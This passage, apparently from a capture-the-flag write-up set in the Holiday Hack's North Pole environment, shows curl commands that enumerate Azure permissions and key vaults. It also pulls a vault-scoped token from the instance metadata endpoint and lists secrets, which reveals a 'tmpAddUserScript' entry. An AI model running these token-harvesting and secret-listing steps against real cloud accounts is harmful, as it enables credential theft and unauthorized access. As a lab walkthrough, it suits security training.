 ```bash
$ curl https://management.azure.com/subscriptions/2b0942f3-9bca-484b-a508-abdae2db5e64/resourceGroups/northpole-rg1/providers/Microsoft.Authorization/permissions?api-version=2022-04-01 --header "Authorization: Bearer $at" | jq
```

Alabaster can:

- "Microsoft.KeyVault/vaults/read",
- "Microsoft.KeyVault/vaults/secrets/read",
- "Microsoft.Web/sites/sourcecontrols/Read",
- "microsoft.web/sites/functions/read",
- "Microsoft.Resources/subscriptions/resourceGroups/read"

The latter three seem mostly applicable to the Azure Function App from the previous objective, so let's see which vaults are available:

```bash
$ curl "https://management.azure.com/subscriptions/2b0942f3-9bca-484b-a508-abdae2db5e64/resources?$filter=resourceType+eq+\'Microsoft.KeyVault/vaults\\'&api-version=2015-11-01" --header "Authorization: Bearer $at" | jq
```

northpole-it-kv and northpole-ssh-certs-kv. The SSH certs sounds like it'll be a more useful keyvault, so let's try getting info about it first:

```bash
$ curl "https://management.azure.com/subscriptions/2b0942f3-9bca-484b-a508-abdae2db5e64/resourceGroups/northpole-rg1/providers/Microsoft.KeyVault/vaults/northpole-ssh-certs-kv?api-version=2022-07-01" --header "Authorization: Bearer $at" | jq
```

It looks like Alabaster has permission to fetch it's secrets, which seem to be at `https://northpole-ssh-certs-kv.vault.azure.net/secrets?api-version=7.4`. Trying to fetch that returns an error about the authorization header being invalid... I guess that's because it was originally fetched for the management API rather than the vault API. Let's get a new authorization token:

```bash
$ curl "http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://vault.azure.net" --header "Metadata:true" | jq
```

??? note "Resource naming"
    Azure is pedantic about the resource naming. I originally thought it should be `northpole-ssh-certs-kv.vault.azure.net` since that's the site I'm requesting API information from. I can get a token for that, but trying to use it to fetch tokens gave me an error explaining that it should be for `https://vault.azure.net`. I then accidentally requested a token for `https://vault.azure.net/` and again, got a token that I once again could not use.

We can then set the resulting token into a variable `bt`, in case we need our first access token again.

But there are no secrets... How about the other vault?

```bash
$ curl --header "Authorization: Bearer $bt" "https://northpole-it-kv.vault.azure.net/secrets?api-version=7.4" | jq
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   244  100   244    0     0   1063      0 --:--:-- --:--:-- --:--:--  1065
{
  "value": [
    {
      "id": "https://northpole-it-kv.vault.azure.net/secrets/tmpAddUserScript",
      "attributes": {
        "enabled": true,
        "created": 1699564823,
        "updated": 1699564823,
        "recoveryLevel": "Recoverable+Purgeable",
        "recoverableDays": 90
      },
```
